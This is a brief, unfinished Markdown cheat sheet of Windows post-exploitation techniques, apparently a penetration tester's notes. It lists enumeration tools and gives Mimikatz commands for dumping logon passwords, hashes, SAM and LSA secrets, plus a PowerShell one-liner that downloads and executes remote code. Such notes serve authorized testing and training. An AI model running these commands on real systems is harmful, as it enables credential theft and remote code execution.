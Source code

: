 # Windows
**work in progress**

- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Mimikatz](#mimikatz)
  - [Other](#other)
  - [Privilege Escalation](#)

## Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [Watson](https://github.com/rasta-mouse/Watson)

### Useful links
- [Enumeration Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## Mimikatz
- [mimikatz](https://github.com/gentilkiwi/mimikatz)

### Check for correct privilege
```bash
mimikatz $ privilege::debug
```

### Extract logon passwords / hashes
```bash
mimikatz $ sekurlsa::logonpasswords
# OR
mimikatz $ lsadump::sam
# OR
mimikatz $ lsadump::secrets
```

## Other
Some useful stuff.

### Powershell: download files
```powershell
Invoke-WebRequest <URL> -Outfile <PATH>
```

### Powershell: download and execute file
```powershell
IEX(New-Object Net.WebClient).downloadString("URL")
```
